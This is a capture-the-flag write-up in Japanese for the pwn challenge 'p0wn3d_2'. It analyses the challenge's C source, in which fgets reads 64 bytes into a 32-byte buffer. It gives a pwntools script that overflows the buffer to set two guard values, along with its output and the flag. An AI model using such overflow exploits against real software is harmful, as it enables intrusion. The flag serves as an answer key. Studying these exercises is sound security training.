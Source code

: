 # p0wn3d_2 - Pwn

You can scream... Whatever. Can you be precise tho?

nc p0wn3d2.kctf-453514-codelab.kctf.cloud 1337


解凍する
```
└─$ tar -xzvf dist.tar.gz
chal
main.c
```

main.c 
```
#include <stdio.h>
#include <string.h>
#include <unistd.h>

struct __attribute__((__packed__)) data {
  char buf[32];
  int guard1;
        int guard2;
};

void ignore(void)
{
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stdin, NULL, _IONBF, 0);
}

void get_flag(void)
{
  char flag[1024] = { 0 };
  FILE *fp = fopen("flag.txt", "r");
  fgets(flag, 1023, fp);
  printf(flag);
}

int main(void) 
{
  struct data second_words;
  ignore(); /* ignore this function */

  printf("I can't believe you just did that. Do you have anything to say for yourself?\n");
  fgets(second_words.buf, 64, stdin);
  sleep(2);
        puts("Yeah Yeah whatever");
        sleep(2);
        puts("I've got two guards now, what are you gonna do about it?");
        sleep(2);

  if (second_words.guard1 == 0xdeadbeef && second_words.guard2 == 0x0badc0de) {
    get_flag();
  }

  return 0;
}
```

分析
- buf が 32 バイト、guard1 と guard2 がそれぞれ 4 バイトとして定義
- fgets(second_words.buf, 64, stdin)で、32バイトのバッファに対して64バイトまで読み込もうとしている


## solve
バッファオーバーフローを利用する
- Aを32バイト送信してbufを埋める
- 次の4バイトにguard1の値（0xdeadbeef）をリトルエンディアン形式で設定
- 続く4バイトにguard2の値（0x0badc0de）をリトルエンディアン形式で設定

```
#!/usr/bin/env python3
from pwn import *

conn = remote('p0wn3d2.kctf-453514-codelab.kctf.cloud', 1337)

# エクスプロイトペイロードを構築
payload = b'A' * 32  # bufを埋める
payload += p32(0xdeadbeef)  # guard1 (リトルエンディアン)
payload += p32(0x0badc0de)  # guard2 (リトルエンディアン)

# 最初のプロンプトを読み込む
print(conn.recvline().decode())

# ペイロードを送信
conn.sendline(payload)

print(conn.recvall().decode())
```


出力
```
$$ python3 solve.py
[+] Opening connection to p0wn3d2.kctf-453514-codelab.kctf.cloud on port 1337: Done
== proof-of-work: disabled ==

[+] Receiving all data: Done (188B)
[*] Closed connection to p0wn3d2.kctf-453514-codelab.kctf.cloud port 1337
I can't believe you just did that. Do you have anything to say for yourself?
Yeah Yeah whatever
I've got two guards now, what are you gonna do about it?
wctf{4ll_y0uR_mEm_4r3_bel0ng_2_Us}
```

## flag
`wctf{4ll_y0uR_mEm_4r3_bel0ng_2_Us}`